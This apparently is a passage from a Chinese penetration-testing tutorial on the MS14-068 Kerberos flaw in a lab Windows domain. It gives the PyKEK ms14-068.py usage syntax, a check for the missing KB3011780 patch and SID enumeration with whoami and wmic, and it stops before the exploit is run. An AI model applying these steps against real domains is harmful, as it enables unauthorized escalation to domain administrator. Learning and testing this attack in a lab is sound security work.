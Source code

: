 域控： win2012R2 192.168.2.10

域成员： win7  192.168.2.162 ， user01/123.com

 #### 6.1 PyKEK工具包

https://technet.microsoft.com/library/security/ms14-068

PyKEK 是利用 Kerberos 协议进行渗透测试的工具包。

使用 PyKEK 可以生成一张高权限的服务票据，并通过 mimikatz 将服务票据注入内存。

ms14-068.py 是工具包中漏洞利用脚本。

**用法：**

```txt
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
-u <username>@<domainName>    用户名@域名
-s <userSid>      用户 SID
-d <doaminControllerAddr>    域控制器地址
-p <clearPassword>       明文密码
-rc4 <ntlmHash>       在没有明文密码的情况下，通过 NTLM Hash 登录
```

**查看是否安装补丁 KB3011780**

![image-20210224205202837](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224205202837.png)

**如图，并没有。**

**查看用户 SID**

```cmd
C:\Users\user01>whoami /user

用户信息
----------------

用户名     SID
========== ==============================================
sec\user01 S-1-5-21-1761316379-1696655578-4051991088-1106
```

查看域内所有用户 SID

```cmd
C:\Users\user01>wmic useraccount get name,sid
Name           SID
a              S-1-5-21-473452369-510210059-1243771429-1002
abc            S-1-5-21-473452369-510210059-1243771429-1001
admin          S-1-5-21-473452369-510210059-1243771429-1000
Administrator  S-1-5-21-473452369-510210059-1243771429-500
Guest          S-1-5-21-473452369-510210059-1243771429-501
hello          S-1-5-21-473452369-510210059-1243771429-1012
hello1         S-1-5-21-473452369-510210059-1243771429-1013
Administrator  S-1-5-21-1761316379-1696655578-4051991088-500
Guest          S-1-5-21-1761316379-1696655578-4051991088-501
krbtgt         S-1-5-21-1761316379-1696655578-4051991088-502
user01         S-1-5-21-1761316379-1696655578-4051991088-1106
```
